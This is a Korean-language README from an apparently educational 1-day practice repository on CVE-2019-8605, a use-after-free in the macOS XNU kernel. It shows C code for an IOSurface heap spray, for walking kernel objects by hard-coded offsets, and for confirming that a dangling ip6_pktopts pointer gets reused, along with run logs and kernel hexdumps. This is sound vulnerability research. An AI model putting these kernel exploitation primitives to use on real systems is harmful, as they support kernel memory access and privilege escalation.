 # **IOSurface_kread_observe (CVE-2019-8605)**

## 환경

macOS 10.14.1 x86_64 ([net.siguza.hsp4.kext](https://github.com/Siguza/hsp4/tree/master) 필요)

## 설명

이전에 작성한 [dangling_kptr_reuse](https://github.com/wh1te4ever/xnu_1day_practice/tree/main/CVE-2019-8605/dangling_kptr_reuse) 레포지토리와 비슷하지만 샬짝 다릅니다.

**해당 레포지토리는 IOSurface Heap Spraying 기법으로 커널 읽기를 수행하는데, 
여기서 dangling 포인터가 실제로 재사용되는지 확인하고, 
dangling 포인터에는 어떤 데이터가 담기게 되는지 알아봅니다.**

이전에, 상위 폴더의 레포지터리에 작성된 README 내용을 봤을 때,
[“2. OSUnserializeBinary 포맷을 활용한 IOSurface 풍수” 제목](https://github.com/wh1te4ever/xnu_1day_practice/blob/main/CVE-2019-8605/README_ko.md#2-osunserializebinary-%ED%8F%AC%EB%A7%B7%EC%9D%84-%ED%99%9C%EC%9A%A9%ED%95%9C-iosurface-%ED%92%8D%EC%88%98)으로 
IOSurface에 풍수할 데이터가 어떻게 만들어지는지 알아봤습니다.

이렇게 풍수될 데이터는 `IOSurface_set_value` 함수에 의해 커널에 데이터가 적재됩니다.

커널에 적재된 데이터들을 확인하는 방법은 다음과 같습니다.

유저 영역에서 가져온 IOSurface를 초기화할때 가져온 mach_port를 가지고, 
커널 영역의 kobject에 접근하여 순차적으로 구조체 필드에 접근함으로써 
풍수된 dictionary부터 OSArray까지 접근할 수 있습니다.

socket_fd로부터 가져온 dangling 커널 포인터가 
풍수에 의해 적재된 OSArray에 있는 요소의 주소와 서로 일치하면
dangling 포인터가 재사용되었다는 것을 의미합니다.

임의로 8바이트 커널에 할당된 포인터에 `0xc0debabe13371338` 값을 kwrite64하고,
취약점을 이용하여 `rk64_via_uaf` 함수에 의해 읽어오는데, 
여기에 스프레이된 커널 데이터 중에서 댕글링 포인터가 실제로 재사용되는지 확인하기 위해 만들었습니다.

```c
// obtain userdict from IOSurface
//Thanks @jmpews, https://gist.github.com/jmpews/01b520993a742f72714cd06e40793eed
uint64_t userdict_from_IOSurface(void) {
	uint64_t surfRoot = port_to_kobject(IOSurfaceRootUserClient);
	// INFO("surfRoot: 0x%llx\n", surfRoot);

	// p/x offsetof(IOSurfaceRootUserClient, IOSurfaceClientArray) = 0x118;
	uint64_t surfClients = kread64(surfRoot + 0x118);
	// INFO("surfClients: 0x%llx\n", surfClients);

	uint64_t surfClient = kread64(surfClients + sizeof(uint64_t) * IOSurface_id);
	// INFO("surfClient: 0x%llx\n", surfClient);

	// p/x offsetof(IOSurfaceClient, IOSurface) = 0x40;
	uint64_t surface = kread64(surfClient + 0x40);
	// INFO("surface: 0x%llx\n", surface);

	// p/x offsetof(IOSurface, UserspaceValueDictionary) = 0xd0
	uint64_t userspaceValueDicts = kread64(surface + 0xd0);

	if(userspaceValueDicts != 0) return userspaceValueDicts;

	return 0;
}

bool is_our_sprayed_OSArray(uint64_t osarray) {
	uint32_t osarray_count = kread32(osarray + 0x20);	// 0x20 = p/x offsetof(OSArray, count)
	uint32_t osarray_capacity = kread32(osarray + 0x24);	// 0x24 = p/x offsetof(OSArray, capacity)
	
	if(osarray_count != 256)	return false;

	for(int i = 0; i < 256; i++) {
		uint64_t osdata_in_osarray = OSArray_objectAtIndex(osarray, i);
		uint64_t kbuffer = OSData_buffer(osdata_in_osarray);
		if(kread64(kbuffer + offsetof(struct ip6_pktopts, ip6po_minmtu)) != 0x41424344) return false;

		//yes, it's our sprayed osarray!
		printf("our sprayed 192bytes OSArray[%d] = 0x%llx\n", i, kbuffer);

		for(int j = 0; j < sizeof(dangling_kptrs) / sizeof(uint64_t); j++) {
			if(kbuffer == dangling_kptrs[j]) {
				INFO("DANGLING KPTR REUSE DETECTED!!! OSArray[%d](0x%llx) == dangling_kptrs[%d](0x%llx)\n", i, kbuffer, j, dangling_kptrs[j]);
				khexdump(dangling_kptrs[j], 0xc0);
				break;
			}
		}
	}

	return true;
}

// second primitive: read 20 bytes from addr
void* read_20_via_uaf(uint64_t addr) {
    // create a bunch of sockets
    int sockets[128];
    for (int i = 0; i < 128; i++) {
        sockets[i] = get_socket_with_dangling_options();
		dangling_kptrs[i] = get_dangling_ip6_pktopts_kaddr(sockets[i]);
    }
 
	for (int i = 0; i < 128; i++) {
        INFO("dangling_kptr = 0x%llx; obtained from socket_fd=%d\n", dangling_kptrs[i], sockets[i]);
    }
...
	uint64_t userspaceValueDicts = userdict_from_IOSurface();
	INFO("userspaceValueDicts: 0x%llx\n", userspaceValueDicts);

	struct kOSDict *dict = kernel_fetch_dict(userspaceValueDicts);

	int sprayed_osarray_found_count = 0;
    for (int i = 0; i < dict->count; i++) {
		if(is_our_sprayed_OSArray(dict->items[i].value)) {
			INFO("sprayed OSArray from dict[%u]: 0x%llx\n\n", i, dict->items[i].value);
			sprayed_osarray_found_count++;
		}
  }
	INFO("sprayed_osarray_found_count = %d\n", sprayed_osarray_found_count);
... 
    return buf;
}
```

레포지토리에 있는 실제 코드를 실행시켜보면,
스프레이된 2번째 dict 중 OSArray[47]이 dangling된 `inp->in6p_outputopts` 주소를 가리키고 있었습니다.

dangling된 주소는 **0xffffff802c0d7280**입니다.

여기서 [**0xffffff802c0d7280**+0x010] 필드에 임의로 8바이트 할당된 커널 주소가 적혀있습니다.

0x10 오프셋 필드는 `struct ip6_pktopts`의 ip6po_pktinfo 필드에 속하기 때문에
`get_pktinfo` 함수로 해당 주소의 20바이트를 읽어올 수 있습니다.

```
ret: 0x0, hsp4: 0xb03
kext_name: com.apple.kec.corecrypto
kext_addr_slid: 0xffffff7f9dcc7000
get_kbase ret: 0, kbase: 0xffffff801ce00000, kslide: 0x1cc00000
[*] IOSurface_init success, IOSurface_id=0x3
[*] surfRoot: 0xffffff802c4280e0
[*] surfClients: 0xffffff802deb0000
[*] surfClient: 0xffffff802c092e60
[*] surface: 0xffffff802b4fbc00
[*] kptr = 0xffffff80b0dbb000 -> kread64: 0xc0debabe13371338
[*] dangling_kptr = 0xffffff802c0d7280; obtained from socket_fd=3
[*] dangling_kptr = 0xffffff802c0d7280; obtained from socket_fd=4
...
[*] spray_IOSurface_call_count: 1
[*] userspaceValueDicts: 0xffffff8029396680
[*] dict 0xffffff8029396680, items 0xffffff80290ca240, count 33, capacity 36
our sprayed 192bytes OSArray[0] = 0xffffff802c0d5b40
our sprayed 192bytes OSArray[1] = 0xffffff802c0d5180
...
[*] sprayed OSArray from dict[1]: 0xffffff80293966c0

our sprayed 192bytes OSArray[0] = 0xffffff802932c480
our sprayed 192bytes OSArray[1] = 0xffffff802bbe7640
our sprayed 192bytes OSArray[2] = 0xffffff802bbe7100
...
our sprayed 192bytes OSArray[47] = 0xffffff802c0d7280
[*] DANGLING KPTR REUSE DETECTED!!! OSArray[47](0xffffff802c0d7280) == dangling_kptrs[0](0xffffff802c0d7280)
=============================
[0xffffff802c0d7280+0x000] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
**[0xffffff802c0d7280+0x010] 00 B0 DB B0 80 FF FF FF**  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x020] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x030] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x040] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x050] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x060] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x070] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x080] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x090] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffff802c0d7280+0x0a0] 00 00 00 00 44 43 42 41  00 00 00 00 00 00 00 00  |  ....DCBA........ 
[0xffffff802c0d7280+0x0b0] 00 00 00 00 44 43 42 41  00 00 00 00 00 00 00 DE  |  ....DCBA........ 
=============================
our sprayed 192bytes OSArray[48] = 0xffffff802dc05600
...
our sprayed 192bytes OSArray[255] = 0xffffff802dc0c3c0
[*] sprayed OSArray from dict[2]: 0xffffff8029396a00

...
[*] sprayed OSArray from dict[32]: 0xffffff8029346f80

[*] sprayed_osarray_found_count = 32
[*] rk64_via_uaf(kptr) = 0xc0debabe13371338
```
